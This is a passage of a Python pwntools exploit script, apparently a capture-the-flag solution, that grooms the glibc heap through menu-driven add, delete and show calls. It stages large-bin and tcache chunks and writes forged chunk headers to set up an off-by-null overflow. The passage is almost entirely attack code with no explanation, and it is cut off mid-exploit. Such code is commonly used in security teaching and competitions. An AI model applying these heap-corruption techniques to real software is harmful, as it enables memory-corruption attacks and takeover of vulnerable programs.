 ```python
    sh.sendlineafter("Idx: ",str(index))

def show(index):
    sh.sendlineafter("Choice: ",'3')
    sh.sendlineafter("Idx: ",str(index))

for i in range(16):
    add(0x10,'fill')

for i in range(16):
    add(0x60,'fill')

for i in range(9):
    add(0x70,'fill')

for i in range(5):
    add(0xC0,'fill')

for i in range(2):
    add(0xE0,'fill')

add(0x170,'fill')
add(0x190,'fill')
# 49

add(0x2A50,'addralign') # 50
#add(0x4A50,'addralign') # 50

add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52


delete(51)
add(0x2000,'push to large bin') # 51
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18

add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61

for i in range(7):
    add(0x28,'tcache')
for i in range(7):
    delete(61 + 1 + i)

delete(54)
delete(60)
delete(53)

for i in range(7):
    add(0x28,'tcache')

# 53,54,60,62,63,64,65

add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
```